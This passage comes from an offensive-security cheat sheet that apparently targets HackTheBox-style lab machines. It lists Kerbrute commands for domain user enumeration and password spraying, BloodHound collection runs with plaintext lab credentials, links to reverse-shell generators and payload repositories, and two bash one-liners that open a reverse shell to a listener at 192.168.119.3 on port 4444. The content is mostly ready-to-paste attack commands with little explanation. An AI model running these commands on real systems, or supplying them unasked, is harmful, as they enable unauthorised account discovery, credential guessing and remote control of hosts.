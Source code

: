 ```
querydispinfo
```
## Active Directory Enumeration

### Kerbrute 

Enumerate users in a domain
```
./kerbrute userenum --dc 10.10.10.248 -d intelligence.htb <username-list>
```

Password spraying users in a domain
```
./kerbrute passwordspray --dc 10.10.10.248 -d intelligence.htb <username-list> 'Passw0rd!'
```

### Bloodhound

```
python3.8 bloodhound.py -ns 10.10.10.248 -d intelligence.htb -dc dc.intelligence.htb -u Tiffany.Molina -p NewIntelligenceCorpUser9876 -c All
```

Start bloodhound server 
```
cd ~/Tools/AD-Enumeration/New-Bloodhound-App; docker compose up -d
```
using bloodhound community edition branch 
```
python3 bloodhound.py -d certified.htb -u 'judith.mader' -p 'judith09' -c all -ns 10.10.11.41 
```

# Reverse Shells

[Reverse Shell Generator ](https://www.revshells.com/)
## PHP

[PHP-Reverse-Shell for Windows and Linux ](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php)

Bash TCP reverse shell one-liner:
```
bash -i >& /dev/tcp/192.168.119.3/4444 0>&1
```

Bash reverse shell one-liner executed as command in Bash:
```
bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"
```

## Windows

[Nishang Shells](https://github.com/samratashok/nishang/tree/master/Shells)
